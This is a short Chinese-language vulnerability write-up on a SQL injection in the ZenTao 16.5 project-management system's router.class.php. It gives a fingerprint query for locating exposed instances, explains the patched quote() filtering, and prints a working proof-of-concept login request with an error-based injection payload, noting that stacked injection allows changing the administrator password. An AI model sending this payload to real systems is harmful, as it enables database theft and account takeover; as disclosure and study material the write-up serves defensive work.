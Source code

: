 # 禅道 16.5 router.class.php SQL注入漏洞

## 漏洞描述

禅道 16.5 router.class.php 文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息，危害服务器安全

## 漏洞影响

<a-checkbox checked>禅道 16.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="易软天创-禅道系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1651845742331-80eb4af4-3ecb-465a-b9f4-6b9f211bce3a.png)

`16.5 到 16.5.1 版本`更新了 `framework/base/router.class.php` 文件

![img](../../../.vuepress/public/img/1651970702476-e791e909-c6ad-4386-a9ed-bd0f93454d92.png)

`account参数`使用了`quote方法`进行过滤SQL语句

![img](../../../.vuepress/public/img/1651971046505-0dfe20a0-ed9b-4704-a233-fbf1967c0248.png)

可以看到这个方法主要是对字段加转义，所以可以推断 16.5 版本中存在SQL注入, 跟踪调试测试SQL注入

![img](../../../.vuepress/public/img/1651971584690-5654e6cd-48ca-4f5e-a552-7c6d6648f968.png)

验证POC如下, 其中同样存在堆叠注入，通过SQL语句可修改管理员密码等

```java
POST /user-login.html

account=admin%27+and+%28select+extractvalue%281%2Cconcat%280x7e%2C%28select+user%28%29%29%2C0x7e%29%29%29%23
```

![img](../../../.vuepress/public/img/1651845951752-a3b596a1-d07e-4283-9373-64f5d4c95f87.png)